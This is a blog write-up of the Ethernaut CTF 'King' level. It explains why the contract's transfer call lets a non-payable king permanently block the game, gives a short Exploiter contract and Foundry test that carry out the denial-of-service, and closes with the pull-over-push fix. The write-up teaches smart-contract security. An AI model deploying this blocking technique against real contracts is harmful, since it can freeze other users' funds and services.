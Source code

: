 ```yaml
---
title: 'Ethernaut Challenge #9 Solution — King'
excerpt: This is Part 9 of the "Let’s play OpenZeppelin Ethernaut CTF" series, where I will explain how to solve each challenge.</br></br>Our goal for this challenge is to **break** the smart contract to make it impossible for someone else to gain the kingship again in the future.
coverImage: '/assets/blog/ethernaut/king.svg'
date: '2020-07-15T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernaut/king.svg'
---
```


This is Part 9 of the ["Let's play OpenZeppelin Ethernaut CTF"](https://stermi.xyz/blog/lets-play-openzeppelin-ethernaut) series, where I will explain how to solve each challenge.

> [The Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity based wargame created by [OpenZeppelin](https://openzeppelin.com/).
> Each level is a smart contract that needs to be 'hacked'. The game acts both as a tool for those interested in learning ethereum, and as a way to catalogue historical hacks in levels. Levels can be infinite and the game does not require to be played in any particular order.

# Challenge #9: King

> The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD
> Such a fun game. Your goal is to break it.
> When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.
>
> Level author: [Alejandro Santander](https://github.com/ajsantander)

Our goal for this challenge is to **break** the smart contract to make it impossible for someone else to gain the kingship again in the future.

## Study the contracts

**State variables**

- `address payable king` the address of the current king. When a new King will take the reign, the old king will receive the `msg.value` sent to the `receive` function
- `uint public prize;` the minimum value that you need to send to the contract if you want to become the new King
- `address payable public owner` the owner of the contract

**`constructor() public payable`**

```solidity
constructor() public payable {
  owner = msg.sender;
  king = msg.sender;
  prize = msg.value;
}
```

It just set up the contract's variables. The `owner` and current `king` is the `msg.sender` (deployer of the contract) and set the `prize` that the new user need to send if he/she want to become the new King

**`function _king() public view returns (address payable)`**

This function just return the current King

**`receive() external payable`**

This is the main function that interest us. As we already know the `receive` function is a **special** function that allow the contract to receive directly Ethers from external contract or EOA. Let's review its code:

```solidity
receive() external payable {
  require(msg.value >= prize || msg.sender == owner);
  king.transfer(msg.value);
  king = msg.sender;
  prize = msg.value;
}
```

The first thing that we see is `require(msg.value >= prize || msg.sender == owner)`.
This check allows the `owner` of the contract to always take the kingship of the contract, resetting all the values.

From a security standpoint, this is a huge concern in general because this function allows the `owner` to reset everything without repaying the current `king` and leaving funds stuck in the contract. Let's make an example

- Alice is the `owner` of the contract
- At some point we have Bob that send `1 ETH` to the contract and become the new King

Normally, if Simon wanted to become the new king would send `>= 1 ETH` to the contract and the previous `king` (Bob) would receive the `msg.value` sent along with the transaction.
But the `owner` can send **0 ETH**, become the new King and that `1 ETH` that Bob sent previously will never go back to him. The second problem is that `1 ETH` will always be stuck inside the contract!

But this is not the main problem that will let us exploit the contract and solve the challenge.

The problem is inside the `king.transfer(msg.value)` instruction. The `transfer` function allow a contract to transfer X amount of ETH from an `sender` to a receiver. Before explaining which is the problem, let's review all the possible way we have to do this operation.

Solidity give us three different methods to send an amount of ETH from an account to another

- `receiverAddress.transfer(amount)`: This function consumes `2300` gas and send `amount` of Ether from the caller to `receiverAddress`. The `transfer` function fails if the balance of the current contract is not large enough or if the Ether transfer is rejected by the receiving account. The `transfer` function reverts on failure.
- `receiverAddress.send(amount)`: This function consumes `2300` gas and send `amount` of Ether from the caller to `receiverAddress`. Send is the low-level counterpart of `transfer`. If the execution fails, the current contract will not stop with an exception, but `send` will return `false`.
- `(bool sent, bytes memory data) = receiverAddress.call{value: amount}("");`: this is the low-level function of the previous two that gives a lot of flexibility but introduce also numerous possible problems like **re-entrancy**. By default, `call` forward the whole gas if you don't specify it. If the call to the `receiverAddress` fails, `sent` will return `false`

So now we know that `transfer` allows you to send Ether to an address, consuming `2300` gas and **reverting** if it was not possible to perform the transaction.

Why is it a problem if the "transfer Ether to" transaction revert? Well, because if the `transfer` revert also our `receive` function **revert!**
And by reverting it will make the **Contract unusable**, no one can become the new King!

One possible solution is to just create a `Contract` that will not accept any kind of Ether transfer toward it. Let's see a code example in the solution section and how we could avoid to fall in this security problem.

## Solution code

First, we need to create and deploy a contract that does not accept Ether.

```solidity
contract Exploiter {
    constructor(address payable to) public payable {
        (bool success, ) = address(to).call{value: msg.value}("");
        require(success, "we are not the new king");
    }
}
```

The only purpose of this contract is to become the new King and stop accepting Ether. By not implementing any `payable` functions, `fallback` or `receive` no one can send to this contract Ether. Well, they can send it via a `selfdestroy` but this is not the case!

The rest of the code is pretty easy:

```solidity
function exploitLevel() internal override {
    vm.startPrank(player, player);

    // Create and deploy a contract that become the new King but will not accept any incoming Ether
    Exploiter exploiter = new Exploiter{value: level.prize() + 1}(payable(address(level)));

    // assert that we are the new king!
    assertEq(level._king(), address(exploiter));

    vm.stopPrank();
}
```

How could the `King` contract prevent this problem from happening?

Well, the first thing would be to adopt a **pull-over-push pattern** where you store the amount that the old king can withdraw and create a function that allows them to withdraw later.

You can read the full solution of the challenge opening [King.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/King.t.sol)

## Further reading

- [Solidity Docs: Sending and Receiving Ether](https://docs.soliditylang.org/en/v0.8.13/security-considerations.html#sending-and-receiving-ether)
- [Solidity Docs: Withdrawal from Contracts](https://docs.soliditylang.org/en/latest/common-patterns.html#withdrawal-from-contracts)
- [SWC-113: DoS with Failed Call](https://swcregistry.io/docs/SWC-113)
- [ConsenSys Smart Contract Best Practices: Don't use `transfer()` or `send()`](https://consensys.github.io/smart-contract-best-practices/development-recommendations/general/external-calls/#dont-use-transfer-or-send)
- [ConsenSys Smart Contract Best Practices: Favor _pull_ over _push_ for external calls](https://consensys.github.io/smart-contract-best-practices/development-recommendations/general/external-calls/#favor-pull-over-push-for-external-calls)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
